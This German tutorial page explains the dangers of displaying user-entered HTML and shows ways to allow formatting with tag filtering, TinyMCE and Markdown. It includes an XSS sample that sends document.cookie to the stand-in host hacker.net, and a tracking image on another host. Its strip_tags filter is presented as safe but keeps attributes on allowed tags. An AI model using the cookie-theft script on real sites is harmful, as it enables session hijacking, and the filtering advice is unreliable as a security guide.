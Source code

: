 ```yaml
---
title: HTML erlauben
order: 50
---
```


Welche Arten gibt es, die Formatierung von eingegeben Texten doch zu erlauben?
Ohne dass dabei Sicherheitsprobleme auftreten.


## HTML

Wie kann man HTML-Tags eingeben, abspeichern, und als HTML-Tags
wieder anzeigen? Welche Probleme können dabei auftreten?

### Gefahren

Zuerst eine Warnung: Die Anzeige von HTML das von Fremden eingegeben wurde ist
gefährlich! Dazu zwei Beispiele: 


Gustav Gastfreund baut auf unter der Adresse http//gustav.at ein Gästebuch in dem BesucherInnen
beliebiges HTML abspeichern können. Herr Lauscher trägt dort ein Bild ein:

<htmlcode>
<img src="http://lauscher.net/bild.php?woher=gaestebuch_mmt" alt="harmloses bild">
</htmlcode>

Das Bild wird also nicht von Webserver gustav.at geladen, sondern vom Webserver von
Herrn Lauscher. Und dort wird gleich ein php-Programm zum Erzeugen des Bildes
aufgerufen. D.h. Wenn Bernhard Besucher das Gästebuch ansurft
dann sieht Herr Lauscher einen Zugriff auf bild.php auf seinem Server, und kann 
das mit-loggen. Falls Herr Lauscher die Gästebuch-Besucher schon
kennt (ein Cookie bei ihnen gesetzt hat) kann er die Leute auch identifizieren.

Gustav Gastfreunt  hat Herrn Lauscher also die Möglichkeit gegeben sehr viel über die
BesucherInne zu erfahren. 

So etwas ähnliches passiert z.B. wenn Sie Google
Analytics in Ihre Webseite einbinden um Zugriffs-Statistiken zu erstellen:
Google erfährt von jedem Zugriff auf Ihre Seite, Google kennt viele
BesucherInnen schon (weil Sie bei gmail.com eingeloggt sind oder von einer
vorhergehenden Suche noch ein Cookie haben.) 

§

Im zweiten Beispiel gibt Frau Hacker neben einem Bild noch etwas Javascript ins
Gästebuch ein:

<htmlcode>
Hallo Welt 

<img src="http://hacker.net/bild.php" alt="harmlos" id="hack_tool" />
<script>
document.getElementById("hack_tool").src += "?c=" + document.cookie;
</script>
</htmlcode>

Mit der einen Zeile Javascript wir das Cookie an die URL des Bildes angefügt, das Ergebnis ist z.B:

<htmlcode>
<img id="hack_tool" alt="harmloses bild" 
src="http://hacker.net/bild.php?keks=PHPSESSID=6b454e966f9fc9b9a9d5126ffb076115"/>
</htmlcode>

So kann Frau Hacker das Cookie einer BesucherIn des Gästebuchs entwenden. Sie
kann nun das Cookie verwenden um als eingeloggter User Ihre Seite zu benützen!

Was lernen wir daraus? 

Niemals, niemals, niemals zulassen, dass Fremde Javascript in Ihre Site einspeisen können!

§

Noch hat unsere Applikation dieses Problem nicht: Wenn Frau Hacker Ihren Code
z.B. in das Profil einer Person eingibt wir der Code htmlescaped angezeigt und
„wirkt nicht“:

![Eingegebener HTML+Javascript-Code wird escaped und dargestellt](/images/html-escaped.png)



### Eingabe von HTML

Wenn Sie sich entscheiden die Eingabe von HTML zu zu lassen, 
dann können Sie das mit einer einfachen `textarea` tun.  

Mit einem Javascript-Editor wie TinyMCE wird die Eingabe aber sehr
vereinfacht: TinyMCE verwandelt eine normale Textarea in einen wysiwyg-Editor:

![Normale Textarea (oben) kann mit TinyMCE in einen wysiwyg-Editor (unten) verwandelt werden](/images/tinymce.png)


### Abspeichern von HTML

Bevor wir das eingegeben HTML abspeichern, wollen wir es
streng kontrollieren: Im Profil sollen nur die HTML-Tags
`<p>` und `<b>` verwendet werden können, mehr nicht. 

Bevor die Daten also in dei Datenbank kommen werden
alle anderen Tags entfernt:

<php>
$description = strip_tags( $_POST['description'], "<p><b>" );
</php>

§

Nun können Sie auch die Ausgabe des Profils umstellen und auf das Escapen 
der `description` verzichten:

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = strip_tags( $person->description,  "<p><b>" );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt 
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>


## Markdown

Markdown ist eine sehr simple Formatierungs-Sprache - viel einfacher als HTML.

<markdown caption="Beispiel für einen Text in Markdown">
  ### Abspeichern von HTML

  Bevor wir das eingegeben HTML abspeichern, wollen wir es
  streng kontrollieren: Im Profil sollen nur die HTML-Tags
  `<p>` und `<b>` verwendet werden können, mehr nicht. 
</markdown>

Dieses Format wird in der Datenbank gespeichert. Erst bei
der Ausgabe als HTML wird Markdown in HTML verwandelt.


### Markdown eingeben

Für Markdown gibt es wieder eigene editoren, z.B. https://simplemde.com/

![Screenshot von SimpleMDE](simplemde.png)



### Markdown darstellen

Mit einem "Markdown Parser" wird das Markdown-Format gelesen und
in HTML übersetzt:

<php>
include 'Parsedown.php';
$Parsedown = new Parsedown();
echo $Parsedown->text('## Hello HTML!');
</php>



